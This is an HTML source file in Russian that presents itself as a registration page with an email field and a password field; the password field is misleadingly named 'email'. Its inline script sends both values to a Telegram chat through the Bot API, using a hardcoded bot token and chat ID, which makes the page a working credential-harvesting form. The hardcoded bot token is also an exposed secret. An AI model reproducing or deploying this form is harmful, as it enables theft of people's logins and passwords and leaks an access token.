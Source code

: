 <html lang="ru">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Регистрация</title>
</head>
<body>
    <h1>Регистрация</h1>
    <form id="registrationForm">
        <label for="username">email:</label>
        <input type="email" id="username" name="username" required>
        <br>
        <label for="email">пароль:</label>
        <input type="text" id="email" name="email" required>
        <br>
        <button type="submit">Зарегистрироваться</button>
    </form>

    <script>
        document.getElementById('registrationForm').addEventListener('submit', function(event) {
            event.preventDefault(); 

            const username = document.getElementById('username').value;
            const email = document.getElementById('email').value;

            const token = '7942332820:AAFC2P1_9T8USat2LkVF_cXqtqCaBqs2O4g';
            const chatId = -1002372284940 
            const message = `Новая регистрация:\nИмя пользователя: ${username}\nEmail: ${email}`;
            const url = `https://api.telegram.org/bot${token}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;

           
            fetch(url) 
                .then(response => {
                    if (response.ok) {
                        alert('Данные успешно отправлены в Telegram!');
                    } else {
                        alert('Ошибка при отправке данных.');
                    }
                })
                .catch(error => {
                    console.error('Ошибка:', error);
                    alert('Ошибка при отправке данных.');
                });
        });
    </script>
</body>
</html>
